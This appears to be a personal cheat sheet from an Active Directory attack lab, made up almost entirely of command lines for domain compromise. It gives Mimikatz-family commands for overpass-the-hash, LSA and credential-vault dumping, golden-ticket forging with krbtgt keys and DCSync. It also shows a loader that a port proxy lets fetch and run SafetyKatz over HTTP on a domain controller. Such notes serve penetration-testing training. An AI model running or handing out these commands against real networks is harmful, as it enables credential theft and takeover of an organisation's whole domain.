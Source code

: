 
### **OVERPASS THE HASH**
*Using SafetyKatz*
```powershell
.\SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<HASH> /run:cmd.exe" "exit"
```
Run invishell and look for other system access
```powershell
Find-PSRemotingLocalAdminAccess -Verbose
```

### **Extract Credentials**
Copy the loader on the dc and use the port forwarding technique to use mimikatz and extract all creds
```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
```
```powershell
winrs -r:dcorp-dc cmd
```
```powershell
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.115
```
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```
```mimikatz
lsadump::lsa /patch
```

```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```
to check
```powershell
klist
```
### **Extract from credential vault**
```powershell
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

### **Using the secrets of krbtgt account, create a Golden ticket**
Just use BetterSafetyKatz
```powershell
> C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<NOME DOMINIO> /sid:<SID DC(lsa dump safetykatz> /aes256:<AES KRBTGT> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

### **execute the DCSync attack to pull hashes of the krbtgt user**
Now use safetykatz to extract the hash of any user
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
![[Pasted image 20231025125418.png]]